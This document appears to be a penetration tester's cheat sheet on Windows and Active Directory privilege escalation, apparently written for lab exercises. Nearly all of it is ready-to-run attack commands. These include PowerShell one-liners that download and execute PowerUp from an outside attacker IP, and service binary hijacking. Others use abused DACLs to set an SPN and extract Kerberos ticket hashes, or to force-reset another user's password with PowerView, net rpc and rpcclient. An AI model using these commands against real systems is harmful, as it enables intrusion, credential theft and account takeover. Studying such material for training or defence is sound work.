 # Privilege Escalation
## Windows
### PowerUp
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
```powershell
cd /usr/share/windows-resources/powersploit/Privesc/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerUp.ps1')

# AllChecks
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerUp.ps1'); Invoke-AllChecks

# john Password123!

# Binary Hijacking
Get-ModifiableServiceFile
## AbuseFunction
Install-ServiceBinary -Name ''

# UnquotedService
Get-UnquotedService
## AbuseFunction  
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
### SharpUp
Ghostpack
```powershell
.\SharpUp.exe audit
```

### Abuse DACLs
#### Default
https://github.com/ShutdownRepo/impacket
https://raw.githubusercontent.com/ShutdownRepo/impacket/dacledit/examples/dacledit.py

Set SPN
GenericAll, GenericWrite, WriteProperty, WriteSPN, Validated-SPN 
```powershell
# PowerView
Set-DomainObject -Identity target_user -Set @{serviceprincipalname='nonexistent/BLAHBLAH'} -Verbose
Get-DomainUser target_user -SPN | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash
Set-DomainObject -Identity target_user -Clear serviceprincipalname -Verbose
```
Reset Password
GenericAll, AllExtendedRights, User-Force-Change-Password
```powershell
Set-ADAccountPassword target_user -NewPassword $((ConvertTo-SecureString 'Password123!' -AsPlainText -Force)) -Reset -Verbose

# PowerView
Set-DomainUserPassword -Identity target_user -AccountPassword $((ConvertTo-SecureString 'Password123!' -AsPlainText -Force)) -Verbose
```
```linux
# net rpc
net rpc password target_user 'Password123!' -U inlanefreight.local/own_user%'Password1' -S 10.129.205.81

# rpcclient
rpcclient -U INLANEFREIGHT/own_user%Password1 10.129.205.81
setuserinfo2 target_user 23 Password123!
```